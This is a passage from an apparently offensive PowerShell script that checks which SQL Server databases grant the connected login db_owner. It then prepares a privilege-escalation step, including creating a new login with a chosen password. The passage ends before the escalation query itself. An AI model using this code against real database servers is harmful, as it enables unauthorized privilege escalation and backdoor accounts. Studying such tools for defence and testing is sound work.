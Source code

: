             write-host "[*] Checking if $ConnectUser has the db_owner role in any of them..."
            $TableDatabases | foreach {

            [string]$CurrentDatabase = $_.databasename                    
            
            # Setup query to grab a list of databases
            $QueryProcedures = "use $CurrentDatabase;select db_name() as db,rp.name as database_role, mp.name as database_user
                from [$CurrentDatabase].sys.database_role_members drm
                join [$CurrentDatabase].sys.database_principals rp on (drm.role_principal_id = rp.principal_id)
                join [$CurrentDatabase].sys.database_principals mp on (drm.member_principal_id = mp.principal_id) 
                where rp.name = 'db_owner' and mp.name = SYSTEM_USER"      

                # Query the databases and load the results into the TableDatabase data table object
                $cmd = New-Object System.Data.SqlClient.SqlCommand($QueryProcedures,$conn)
                Try{
                    $results2 = $cmd.ExecuteReader()
                    $TableDBOwner.Load($results2)
                }
                Catch {}
                
            }
        }

        # -------------------------------------------------
        # Attempt to escalate privileges
        # -------------------------------------------------

        # Get number database wwhere the user is db_owner
        $DbOwnerRoleCount = $TableDBOwner.rows.count 

        if ($DbOwnerRoleCount -ne 0) {      
            
            # Set db to be used for escalating privs # fix this
            $TableDBOwner | Select-Object db -first 1 | foreach {
                $ElevateOnDb = $_.db            
            }

            # Add new user if provided
            if ($newuser -and $newPass){
                $AddUser = "CREATE LOGIN $newuser WITH PASSWORD = '$newPass'"
                $UsertoElevate = $newuser
                $Message = " create and"
            }else{
                $AddUser = ""
                $UsertoElevate = $ConnectUser
                $Message = ""
            }
